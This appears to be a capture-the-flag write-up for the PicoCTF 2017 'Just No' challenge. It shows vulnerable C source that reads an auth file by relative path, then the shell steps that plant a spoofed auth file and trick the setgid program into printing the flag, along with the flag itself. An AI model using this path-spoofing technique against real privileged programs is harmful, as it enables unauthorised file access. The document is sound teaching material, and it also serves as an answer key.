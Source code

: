 # PicoCTF 2017- Level 1 - Binary Exploitation 2

**Title:** Just No  
**Category:** Binary Exploitation  
**Points:** 40  
**Description:**

>A program at /problems/7e8b456c98db60be9a33339ab4509fca has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Solution

First let's navigate to the directory and list the file in it:  
	$ cd  /problems/f49abea6827cafa20a035340d3812d09
	$ ls -l
	total 20
	-rw-r--r-- 1 hacksports just-no_9    2 Mar 31  2017 auth
	-r--r----- 1 hacksports just-no_9   33 Mar 31  2017 flag
	-rwxr-sr-x 1 hacksports just-no_9 7800 Mar 31  2017 justno
	-rw-r--r-- 1 hacksports just-no_9  838 Mar 31  2017 justno.c

As we can see there is a .c file corresponding to the source code of the program "justno". Let's open it:  
```c
#include 
#include 
#include 
#include 
#include 

int main(int argc, char **argv){
  FILE* authf = fopen("../../problems/f49abea6827cafa20a035340d3812d09/auth","r"); //access auth file in ../../../problems/f49abea6827cafa20a035340d3812d09
  if(authf == NULL){
    printf("could not find auth file in ../../problems/f49abea6827cafa20a035340d3812d09/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/f49abea6827cafa20a035340d3812d09/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

The trick here is to notice that the fopen function on the second line uses a relative path. The program open an "auth" file and check if there is "no" inside. What we can do is to create our own subfolder and auth file:  
	$ mkdir -p ~/problems/f49abea6827cafa20a035340d3812d09/
	$ echo "yes" > ~/problems/f49abea6827cafa20a035340d3812d09/auth
	$ cd ~/problems/f49abea6827cafa20a035340d3812d09/
	$ /problems/f49abea6827cafa20a035340d3812d09/justno
	Oh. Well the auth file doesn't say no anymore so... Here's the flag: 6882905ccde9eeceac01f98cb0260fc2

The flag is `6882905ccde9eeceac01f98cb0260fc2`